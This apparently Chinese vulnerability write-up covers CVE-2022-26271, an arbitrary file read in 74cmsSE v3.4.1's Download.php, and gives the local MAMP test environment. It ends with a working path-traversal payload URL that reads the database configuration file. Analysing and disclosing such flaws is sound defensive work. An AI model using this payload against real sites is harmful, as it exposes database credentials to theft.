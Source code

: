 ![pFsdUaj.md.png](assets/1710993004-4eb3d7baae62c0c035c3241d53dd5919.png)

## 三、环境介绍

本地审计使用 MAMP 集成搭建

```txt
Apache 2.4.54
Mysql 5.7.39
PHP 7.3.33
```

## 四、漏洞分析

### v3.4.1 任意文件读取

漏洞信息：  
[CVE - CVE-2022-26271 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-26271)  
[74cmsSEv3.4.1 Arbitrary File Read Vulnerability · Issue #1 · N1ce759/74cmsSE-Arbitrary-File-Reading (github.com)](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)  
漏洞位于 Download.php 文件中的 fread() 和 fopen() 函数中，对输入的内容 $url 没有做到完全的检测过滤，进而导致读取任意文件。

Payload：

```rb
/index.php/index/download/index?name=index.php&amp;url=../../application/database.php
```
